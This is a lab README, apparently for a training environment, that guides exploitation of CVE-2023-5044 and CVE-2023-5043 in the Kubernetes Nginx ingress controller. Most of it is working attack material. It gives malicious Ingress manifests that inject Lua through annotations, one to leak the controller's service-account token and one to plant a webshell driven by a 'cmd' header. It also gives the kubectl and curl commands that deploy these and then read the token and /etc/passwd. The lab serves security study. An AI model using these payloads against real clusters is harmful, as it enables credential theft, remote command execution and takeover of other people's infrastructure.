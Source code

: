 # Abusing CVE-2023-5044 and CVE-2023-5043

This scenario prepare the environment so you can exploit CVE-2023-5044 and CVE-2023-5043. These exploits abuse some of the Kubernetes Nginx ingress controller features to inject code using annotations, these vulnerabilities were fixed in the 1.9.0 version.

The ingress controller is installed as a NodePort service (To avoid the need of an external load balancer), its ports are:
- 30080 for HTTP
- 30443 for HTTPS

A pod you can SSH into is provided, the service account used by the pod has limited privileges but are enough to exploit the vulnerabilities. The idea is to emulate a scenario where an application that manage the Ingress objects is compromised:

```bash
ssh pwned@10.10.20.2 -p 30023
```

The service account has only **read access to services and pods but full access to ingress objects**.

Once connected, prepare the `kubectl` binary so you can make request to the Kubernetes API in an easy way:

```bash
curl -LO "https://dl.k8s.io/release/$(curl -L -s https://dl.k8s.io/release/stable.txt)/bin/linux/amd64/kubectl"
chmod +x kubectl
```

If you did everything right, this command should return all the pods in the cluster:

```bash
./kubectl --token $(cat /var/run/secrets/kubernetes.io/serviceaccount/token) --server https://10.10.20.2:6443 --insecure-skip-tls-verify=true get pods -A
```

From here, you can continue reading for a guided exploitation or research for yourself. At the end of this document you can find some really interesting references to understand the vulnerabilities.

# CVE-2023-5044

The provided PoC will leak the Nginx controller service account token instead of provide a webshell. This token has access to a lot of resources including secrets so in most cases you may abuse this to escalate and get full access to the cluster.

First deploy this malicious Ingress copying it to a file and using:

```bash
./kubectl --token $(cat /var/run/secrets/kubernetes.io/serviceaccount/token) --server https://10.10.20.2:6443 --insecure-skip-tls-verify=true apply -f ingress.yaml
```

```yaml
apiVersion: networking.k8s.io/v1
kind: Ingress
metadata:
  name: cve-2023-5044
  namespace: cve-2023-5044-and-cve-2023-5043
  annotations:
    nginx.ingress.kubernetes.io/rewrite-target: /$2
    nginx.ingress.kubernetes.io/permanent-redirect: https://www.google.com;}location ~* "^/exploit(/|$)(.*)" {content_by_lua 'ngx.say(io.popen("cat /var/run/secrets/kubernetes.io/serviceaccount/token"):read("*a"))';}location ~* "^/exploit(/|$)(.*)" { content_by_lua 'os.execute("touch /you")'
spec:
  rules:
  - http:
      paths:
      - pathType: Prefix
        path: /foo(/|$)(.*)
        backend:
          service:
            name: foo-service
            port:
              number: 5678
      - pathType: Prefix
        path: /test(/|$)(.*)
        backend:
          service:
            name: test-service
            port:
              number: 5678
```

Once the above is done, execute this to get the Nginx controller service account token:

```bash
curl http://10.10.20.2:30080/exploit
```

# CVE-2023-5043:

In order for this to work the `allow-snippet-annotations` option needs to be set to `true`. This option is defaulted to false since v1.9.0, this means that you may exploit the vulnerability even in later versions if it is missconfigured. 

The exploitation of this vulnerability is pretty similar to CVE-2023-5044. In this case, the PoC provided will give you a webshell. Deploy this malicious Ingress copying it to a file and using:

```bash
./kubectl --token $(cat /var/run/secrets/kubernetes.io/serviceaccount/token) --server https://10.10.20.2:6443 --insecure-skip-tls-verify=true apply -f ingress.yaml
```

```yaml
apiVersion: networking.k8s.io/v1
kind: Ingress
metadata:
  name: cve-2023-5043
  namespace: cve-2023-5044-and-cve-2023-5043
  annotations:
    nginx.ingress.kubernetes.io/configuration-snippet: |
      more_set_headers "pwned"
            proxy_pass http://upstream_balancer;
                                proxy_redirect                          off;
        }
        location /pwned/ { content_by_lua_block { local rsfile = io.popen(ngx.req.get_headers()["cmd"]);local rschar = rsfile:read("*all");ngx.say(rschar); } } location /fs/{
spec:
  rules:
  - host: pwned.me
    http:
      paths:
      - path: /
        pathType: Prefix
        backend:
          service:
            name: test-service
            port:
              number: 5678
```

Now you can start executing commands in the Nginx controller pod. The example command will return the contents of the `/etc/passwd` file:

```bash
curl -v -H 'Host: pwned.me' -H "cmd: cat /etc/passwd" http://10.10.20.2:30080/pwned/
```

## References

- https://kubernetes.io/docs/concepts/services-networking/ingress/
- https://www.covertswarm.com/post/exploiting-cve-2023-5044-and-cve-2023-5043-to-overtake-a-kubernetes-cluster
- https://github.com/r0binak/CVE-2023-5044
- https://github.com/KubernetesBachelor/CVE-2023-5044
- https://github.com/r0binak/CVE-2023-5043
- https://www.armosec.io/blog/cve-2023-5043-nginx-ingress/
